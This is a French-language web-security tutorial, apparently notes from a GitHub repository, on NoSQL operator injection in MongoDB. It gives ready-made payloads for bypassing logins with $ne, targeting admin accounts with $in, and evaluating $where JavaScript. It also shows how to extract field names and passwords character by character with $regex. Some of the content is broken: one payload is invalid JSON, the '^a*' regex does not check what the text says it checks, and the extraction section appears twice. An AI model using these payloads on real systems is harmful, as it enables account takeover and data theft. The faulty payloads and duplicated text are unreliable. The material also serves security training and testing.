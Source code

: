 Les opérateurs de requête, permettent de spécifier les conditions que les données doivent remplir pour être incluses dans le résultat de la requête. 

- `$where` - Correspond aux documents qui satisfont une expression JavaScript.
- `$ne` - Correspond à toutes les valeurs qui ne sont pas égales à une valeur spécifiée.
- `$in` - Correspond à toutes les valeurs spécifiées dans un tableau.
- `$regex` - Sélectionne les documents dont les valeurs correspondent à une expression régulière spécifiée.

Vous pourrez peut-être injecter des opérateurs de requête pour manipuler les requêtes NoSQL. Pour ce faire, 

- Soumettez systématiquement différents opérateurs à une série d'entrées utilisateur, puis examinez les réponses pour détecter les messages d'erreur ou autres modifications. 

## Soumission d’opérateurs de requête 

**Dans les messages json**

Vous pouvez insérer des opérateurs de requête en tant qu'objets imbriqués. Par exemple, `{"username":"wiener"}` devient :

```sh
{"username":{"$ne":"invalid"}}
```

**Dans les paramètres d'URL**

Par exemple, `username=wiener` devient :

```sh
username[$ne]=invalid
```

Si cela ne fonctionne pas, vous pouvez essayer ce qui suit : 

1. Convertir la méthode de requête de `GET` à `POST`.
2. Changer le `Content-Type` en-tête vers `application/json`.
3. Ajoutez `JSON` au corps du message.
4. `Injectez des opérateurs de requête` dans le JSON.

> You can use the Content Type Converter extension to automatically convert the request method and change a URL-encoded POST request to sh. 


## Détection de l'injection d'opérateur dans MongoDB 

Considérons une application vulnérable qui accepte un nom d'utilisateur et un mot de passe dans le corps d'un POST demande:

```sh
{"username":"wiener", "password":"peter"}
```

- Testez chaque entrée avec une gamme d’opérateurs. Par exemple, pour tester si l'entrée du nom d'utilisateur traite l'opérateur de requête, vous pouvez essayer l'injection suivante :

```sh
{"username":{"$ne":"invalid"}"password":"peter"}
```

> Si L'opérateur `$ne` est appliqué, cela interroge tous les utilisateurs dont le nom d'utilisateur `n'est pas égal à invalid`.

> Si les entrées du nom d'utilisateur et du mot de passe traitent l'opérateur, il peut être possible de [contourner l'authentification](./Bypassing%20Authentication.md) à l'aide de la charge utile suivante :

```sh
{"username":{"$ne":"invalid"}, "password": {"$ne":"invalid"}}
```

Cette requête renvoie toutes les informations de connexion dont le nom d'utilisateur et le mot de passe ne sont pas égaux à invalid. Par conséquent, vous êtes connecté à l’application en tant que premier utilisateur de la collection.

Pour cibler un compte, vous pouvez créer inclut un nom d'utilisateur connu ou deviné

```sh
{   
    "username":{
        "$in":["admin","administrator","superadmin"]
    },
    "password":{"$ne":""}
}
```

## Exploiter l'injection d'opérateur NoSQL pour extraire des données 

Même si la requête d'origine ne permet pas d'exécuter du JavaScript arbitraire, il est possible d'injecter un opérateur spécifique. En utilisant des conditions booléennes, vous pourrez tester si l'application exécute le JavaScript que vous avez injecté via cet opérateur.

**Injection d'opérateurs dans MongoDB**

Considérons une application vulnérable qui accepte le nom d'utilisateur et le mot de passe dans le corps d'une demande `POST`:

```sh
{"username":"wiener","password":"peter"}
```

Pour tester si vous pouvez injecter des opérateurs, vous pouvez essayer d'ajouter l'opérateur `$where` comme paramètre supplémentaire, puis envoyez une requête où la condition est évaluée comme fausse et une autre qui est évaluée comme vraie. Par exemple:

```sh
{"username":"wiener", "password":"peter", "$where":"0"}
```
```sh
{"username":"wiener", "password":"peter", "$where":"1"}
```

> S'il existe une différence entre les réponses, cela peut indiquer que l'expression JavaScript dans la clause `$where` est en cours d’évaluation. 

**Extraction des noms de champs**

Si vous avez injecté un opérateur qui vous permet d'exécuter JavaScript, vous pourrez peut-être utiliser la méthode `keys()` pour extraire le nom des champs de données. Par exemple, vous pouvez soumettre la charge utile suivante :

```sh
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

> Ceci inspecte le premier champ de données de l'objet utilisateur et renvoie le premier caractère du nom du champ. Cela vous permet d'extraire le nom du champ caractère par caractère.

**Exfiltration de données à l'aide d'opérateurs**

Alternativement, vous pourrez peut-être extraire des données à l'aide d'opérateurs qui ne vous permettent pas d'exécuter JavaScript. Par exemple, vous pourrez peut-être utiliser l'opérateur `$regex` pour extraire les données caractère par caractère.

Considérons une application vulnérable qui accepte un nom d'utilisateur et un mot de passe dans le corps d'une demande `POST`. Par exemple:

```sh
{"username":"myuser","password":"mypass"}
```

Vous pouvez commencer par tester si l'opérateur `$regex` est traité comme suit :

```sh
{"username":"admin","password":{"$regex":"^.*"}}
```

> Si la réponse à cette demande est différente de celle que vous recevez lorsque vous soumettez un mot de passe incorrect, cela indique que l'application peut être vulnérable. 

Vous pouvez utiliser l'opérateur `$regex` pour extraire les données caractère par caractère. Par exemple, la charge utile suivante vérifie si le mot de passe commence par un a:

```sh
{"username":"admin","password":{"$regex":"^a*"}}
```

**Exfiltration de données à l'aide d'opérateurs**

Alternativement, vous pourrez peut-être extraire des données à l'aide d'opérateurs qui ne vous permettent pas d'exécuter JavaScript. Par exemple, vous pourrez peut-être utiliser le $regex opérateur pour extraire les données caractère par caractère.

Considérons une application vulnérable qui accepte un nom d'utilisateur et un mot de passe dans le corps d'un `POST` demande. Par exemple:

```json
{"username":"myuser","password":"mypass"}
```

Vous pouvez commencer par tester si l'opérateur `$regex` est traité comme suit :

```json
{"username":"admin","password":{"$regex":"^.*"}}
```

Si la réponse à cette demande est différente de celle que vous recevez lorsque vous soumettez un mot de passe incorrect, cela indique que l'application peut être vulnérable. Vous pouvez utiliser l'opérateur `$regex` pour extraire les données caractère par caractère. Par exemple, la charge utile suivante vérifie si le mot de passe commence par un a:

```json
{"username":"admin","password":{"$regex":"^a*"}}
```